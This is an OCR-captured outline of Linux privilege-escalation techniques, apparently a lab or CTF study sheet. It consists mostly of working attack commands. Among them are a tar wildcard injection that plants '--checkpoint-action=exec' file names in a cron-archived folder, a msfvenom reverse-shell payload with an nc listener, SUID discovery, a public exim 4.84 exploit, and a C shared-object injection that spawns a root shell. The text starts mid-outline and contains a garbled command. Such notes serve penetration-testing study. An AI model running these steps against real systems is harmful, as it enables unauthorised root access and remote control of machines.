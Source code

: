				- $ ls *
% touch ./-l
$ ls *
				- $ cat /etc/crontab
				- $ cat /usr/local/bin/compress.sh
				- $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f elf -o shell.elf
				- $ chmod +x /home/user/shell.elf
				- $ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
				- # nc -nvlp $PORT

	- SUID / SGID

		- SUID / SGID Files

			- Detection

				- $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

		- Shell Escape Sequences

			- Detection

				- https://gtfobins.github.io/

		- Known Exploits

			- Detection

				- $ ./lse.sh -l 1 -i
				- $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

			- Exploitation

				- $ /usr/sbin/exim-4.84-3 --version
				- # searchsploit exim 4.84
				- $ sed -e "s/^M//" 39535.sh > privesc.sh
				- $ chmod + privesc.sh
				- $ ./privesc.sh

		- Shared Object Injection

			- Detection

				- $ ./lse.sh -l 1 -i
				- $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
2> /dev/null

			- Exploitation

				- $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
				- #include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
				- $ gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
				- $ /usr/local/bin/suid-so
